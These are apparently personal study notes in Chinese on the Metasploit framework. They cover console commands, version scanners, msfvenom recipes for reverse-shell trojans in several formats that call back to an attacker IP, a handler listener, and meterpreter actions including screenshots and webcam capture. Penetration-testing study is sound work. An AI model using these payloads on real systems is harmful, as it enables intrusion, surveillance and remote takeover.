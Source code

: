 ```yaml
---
title: MSF学习笔记
date: 2017-07-02 21:10:01
tags:
- 渗透测试
categories: 
- 工具
---
```



### 基本命令

> back  返回上一级                                   
> show +(tab tab) 显示框架模块                                
> show exploits  显示exp                                     
> show payloads  显示载荷                                      
> show auxiliary 显示辅助攻击载荷                       
> show targets 显示漏洞影响范围                          
> show options  显示漏洞参数设置                         
> search (漏洞编号)查找漏洞对应的exp                        
> info显示模块详细信息                          
> use 装载模块                                        
> run 运行exp                                       

<!--more-->
参数

> LHOST  靶机ip，可以让目标主机连接的IP地址          
> LPORT 设置攻击机端口                                      
> RHOST 远程主机或目标主机                       
> RPORT 设置靶机端口                                         

### scanner模块

> use scanner/smb/smb_version               扫描windows的smb版本信息  
> use scanner/ssh/ssh_version                  扫描ssh版本信息，对像攻击openssh有帮助  
> use scanner/ftp/ftp_version                   扫描ftp版本信息  
> use auxiliary/scanner/ftp/annoymous    检查ftp是否允许匿名登录

### Meterpreter

初探msf：  
http://www.xuebuyuan.com/1993953.html  
转Metasploit之Automated Persistent Backdoor  
http://www.evil0x.com/posts/26075.html

给靶机创建一个跟攻击机会话的模块，上面文章有关于内网渗透的



- 用msfvenom生成木马

**web端**
> msfvenom -p java/meterpreter/reverse_tcp LHOST 攻击机ip LPORT 攻击机端口 -f jar >/root/***.jar  
> msfvenom -p windows/meterpreter/reverse_tcp LHOST 攻击机ip LPORT 攻击机端口 -f exe >/root/***.exe  
> msfvenom -p php/meterpreter/reverse_tcp LHOST 攻击机ip LPORT 攻击机端口 -f php >/root/***.php  
> msfvenom -p windows/meterpreter/reverse_tcp LHOST 攻击机ip  LPORT 攻击机端口 -f asp > shell.asp JSP  
> msfvenom -p java/jsp_shell_reverse_tcp LHOST 攻击机ip LPORT 攻击机端口 -f war > shell.war

**反弹shell**  
> msfvenom -p cmd/unix/reverse_python LHOST 攻击机ip LPORT 攻击机端口 -f raw > shell.py  （python）  
> msfvenom -p cmd/unix/reverse_bash LHOST 攻击机ip LPORT 攻击机端口 -f raw > shell.sh  （bash）  
> msfvenom -p cmd/unix/reverse_perl LHOST 攻击机ip LPORT 攻击机端口 -f raw > shell.pl   （perl）


- use exploit/multi/handler 监听内网反弹过来的shell

> use exploit/multi/handler  
> set PAYLOAD <Payload name>  
> set LHOST <LHOST value>  
> set LPORT <LPORT value>  
> set ExitOnSession false  
> exploit -j -z

内网渗透，给拿到权限的机子，上传一个msf，然后用这个监听这个网段的（不是同一个网段用不了）


- meterpreter下可执行的操作

> background            让meterpreter到后台  
> quit                         退出meterpreter会话  
> shell                        获取一个shell  
> irb                           开启ruby终端  
> screenshot              截屏  
> sysinfo                    获取操作系统的详细信息  
> ps                           获取进程列表  
> getuid                    查看权限  
> kill  uid                   杀进程  
> migrate  进程号       将meterpreter会话迁移到进程号  
> webcam_snap         拍照  
> shutdown               关机


键盘窃听上面2篇文章都有




